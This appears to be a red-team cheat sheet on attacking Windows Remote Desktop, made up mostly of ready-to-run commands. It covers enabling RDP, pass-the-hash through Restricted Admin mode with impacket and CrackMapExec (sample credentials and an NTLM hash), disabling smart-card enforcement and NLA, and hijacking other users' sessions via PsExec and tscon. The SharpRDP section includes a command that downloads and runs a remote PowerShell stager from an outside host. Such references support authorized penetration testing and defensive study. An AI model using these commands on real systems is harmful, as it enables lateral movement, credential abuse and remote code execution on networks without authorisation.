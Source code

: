 ```yaml
---
description: Remote Desktop Protocol
---
```


# RDP

* [https://syfuhs.net/how-authentication-works-when-you-use-remote-desktop](https://syfuhs.net/how-authentication-works-when-you-use-remote-desktop)
* [https://posts.specterops.io/revisiting-remote-desktop-lateral-movement-8fb905cb46c3](https://posts.specterops.io/revisiting-remote-desktop-lateral-movement-8fb905cb46c3)




## Enable RDP

With meterpreter:

```
meterpreter > run getgui -e
```

With PowerShell:

```
PS > Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Terminal Server" -Name "fDenyTSConnections" -Value 0
PS > Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
PS > Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" -Name "UserAuthentication" -Value 1
```

Manually add firewall rule (if necessary):

```
Cmd > netsh advfirewall firewall add rule name="Allow Remote Desktop" dir=in protocol=TCP localport=3389 action=allow
PS > New-NetFirewallRule -DisplayName 'Allow Remote Desktop' -Profile @('Domain', 'Private') -Direction Inbound -Action Allow -Protocol TCP -LocalPort @('3389')
```




## Restricted Admin

* [https://www.kali.org/penetration-testing/passing-hash-remote-desktop/](https://www.kali.org/penetration-testing/passing-hash-remote-desktop/)
* [https://blog.ahasayen.com/restricted-admin-mode-for-rdp/](https://blog.ahasayen.com/restricted-admin-mode-for-rdp/)
* [https://labs.f-secure.com/blog/undisable/](https://labs.f-secure.com/blog/undisable/)
* [https://shellz.club/pass-the-hash-with-rdp-in-2019/](https://shellz.club/pass-the-hash-with-rdp-in-2019/)
* [https://github.com/GhostPack/RestrictedAdmin](https://github.com/GhostPack/RestrictedAdmin)

RDP with [PtH](http://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/): RDP needs a plaintext password unless Restricted Admin mode is enabled.

Check / enable / disable with PowerShell:

```
PS > Get-ChildItem "HKLM:\System\CurrentControlSet\Control\Lsa" -Recurse
PS > Get-Item "HKLM:\System\CurrentControlSet\Control\Lsa"
PS > New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DisableRestrictedAdmin" -Value 0 -PropertyType "DWORD"
PS > Get-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DisableRestrictedAdmin"
PS > Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DisableRestrictedAdmin" -Value 1
PS > Remove-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DisableRestrictedAdmin"
```

Check / enable / disable with impacket:

```
$ reg.py megacorp.local/snovvcrash:'Passw0rd!'@192.168.1.1 query -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' -s
$ reg.py megacorp.local/snovvcrash:'Passw0rd!'@192.168.1.1 add -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' -v DisableRestrictedAdmin -vt REG_DWORD -vd 0
$ reg.py megacorp.local/snovvcrash:'Passw0rd!'@192.168.1.1 query -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' -v DisableRestrictedAdmin
$ reg.py megacorp.local/snovvcrash:'Passw0rd!'@192.168.1.1 add -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' -v DisableRestrictedAdmin -vt REG_DWORD -vd 1
$ reg.py megacorp.local/snovvcrash:'Passw0rd!'@192.168.1.1 delete -keyName 'HKLM\SYSTEM\CurrentControlSet\Control\Lsa' -v DisableRestrictedAdmin
```

Enable with CME:

```
$ cme smb 192.168.1.11 -u Administrator -H fc525c9683e8fe067095ba2ddc971889 -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'
```

Use:

```
$ xfreerdp /pth ...
Cmd > mstsc.exe /restrictedAdmin
```




## Smart Card Authentication

Disable enforced smart card authentication during interactive logon:

```
PS > Get-ItemProperty -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\policies\System" -Name "scforceoption"
PS > Set-ItemProperty -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\policies\System" -Name "scforceoption" -Value 0
```



### Emulating PIV

- [https://www.pentestpartners.com/security-blog/living-off-the-land-ad-cs-style/](https://www.pentestpartners.com/security-blog/living-off-the-land-ad-cs-style/)
- [https://github.com/CCob/PIVert](https://github.com/CCob/PIVert)
- [https://twitter.com/an0n_r0/status/1560699385545195521](https://twitter.com/an0n_r0/status/1560699385545195521)
- [https://twitter.com/snovvcrash/status/1561020682242326528](https://twitter.com/snovvcrash/status/1561020682242326528)




## NLA

Disable NLA:

```
PS > (Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName "PC01" -Filter "TerminalName='RDP-tcp'").UserAuthenticationRequired
PS > (Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName "PC01" -Filter "TerminalName='RDP-tcp'").SetUserAuthenticationRequired(0)
```




## Hijack RDP Sessions

- [http://www.korznikov.com/2017/03/0-day-or-feature-privilege-escalation.html](http://www.korznikov.com/2017/03/0-day-or-feature-privilege-escalation.html)
- [https://www.ired.team/offensive-security/lateral-movement/t1076-rdp-hijacking-for-lateral-movement](https://www.ired.team/offensive-security/lateral-movement/t1076-rdp-hijacking-for-lateral-movement)
- [https://qtechbabble.wordpress.com/2017/04/07/use-quser-to-view-which-accounts-are-logged-inremoted-in-to-a-computer/](https://qtechbabble.wordpress.com/2017/04/07/use-quser-to-view-which-accounts-are-logged-inremoted-in-to-a-computer/)

Run Task manager as LocalSystem to hijack other users' sessions:

```
PS > .\PsExec64.exe -si C:\Windows\System32\Taskmgr.exe -accepteula
```

The same can be achieved with `tscon.exe`:

```
PS > .\PsExec64.exe -s \\localhost cmd
PS > quser.exe
PS > cmd /k tscon.exe <ID> /dest:<CURRENT_SESSIONNAME>
```



### Tools

- [https://github.com/fortra/impacket/blob/master/examples/tstool.py](https://github.com/fortra/impacket/blob/master/examples/tstool.py)
- [https://github.com/netero1010/RDPHijack-BOF](https://github.com/netero1010/RDPHijack-BOF)




## Tools



### SharpRDP

- [https://github.com/0xthirteen/SharpRDP](https://github.com/0xthirteen/SharpRDP)
- [https://github.com/S3cur3Th1sSh1t/SharpRDP](https://github.com/S3cur3Th1sSh1t/SharpRDP)

```
Cmd > .\SharpRDP.exe computername=srv01 command="iex(new-object net.webclient).downloadstring('http://10.10.13.37:8080/grunt.ps1')" username=megacorp\snovvcrash password=Passw0rd!
```



### SharpRDPHijack

- [https://github.com/bohops/SharpRDPHijack](https://github.com/bohops/SharpRDPHijack)



### TakeMyRDP

- [https://github.com/TheD1rkMtr/TakeMyRDP](https://github.com/TheD1rkMtr/TakeMyRDP)
- [https://github.com/nocerainfosec/TakeMyRDP2.0](https://github.com/nocerainfosec/TakeMyRDP2.0)
